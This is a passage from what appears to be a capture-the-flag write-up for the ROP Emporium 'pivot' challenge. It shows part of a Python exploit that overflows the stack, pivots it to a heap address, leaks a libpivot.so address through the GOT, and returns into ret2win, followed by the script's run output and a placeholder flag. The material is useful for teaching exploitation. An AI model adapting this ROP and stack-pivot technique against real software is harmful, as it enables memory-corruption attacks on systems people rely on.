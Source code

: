 ```python

payload2 = "A" * 0x28
payload2 += pop_rax
payload2 += heap_addr
payload2 += xchg_rax_rsp

print "Sending payload2: ", payload2.encode("hex")
l.send(payload2)

print l.recvuntil(".so")

foothold_ptr = u64(l.recv(6) + "\x00\x00")
print "foothold_ptr = ", hex(foothold_ptr)

ret2win_ptr = p64(foothold_ptr + 0x14e)

payload3 = "A" * 0x28
payload3 += ret2win_ptr

print "GET READY WE ARE GOING IN AGAIN"

print l.sendlineafter("> ", "C" * 8)

print l.sendlineafter("> ", payload3)

print l.clean()
```

Aaaand running it:

```sh
$ python exploit2.py
[+] Starting local process './pivot': pid 1235
message1: 
pivot by ROP Emporium
64bits

Call ret2win() from libpivot.so
The Old Gods kindly bestow upon you a place to pivot: 0x7f97e4353f10
Send your second chain now and it will land there
> 
Found heap_addr:  \x10?5��\x00\x00
Sending payload1:  5008400000000000730b4000000000004820600000000000000840000000000096094000000000004242424242424242
Now kindly send your stack smash
> 
Sending payload2:  41414141414141414141414141414141414141414141414141414141414141414141414141414141000b400000000000103f35e4977f0000020b400000000000
foothold_function(), check out my .got.plt entry to gain a foothold into libpivot.so
foothold_ptr =  0x7f97e4735970
GET READY WE ARE GOING IN AGAIN

pivot by ROP Emporium
64bits

Call ret2win() from libpivot.so
The Old Gods kindly bestow upon you a place to pivot: 0x7f97e3352f10
Send your second chain now and it will land there

Now kindly send your stack smash

ROPE{a_placeholder_32byte_flag!}

[*] Process './pivot' stopped with exit code 0 (pid 1235)
```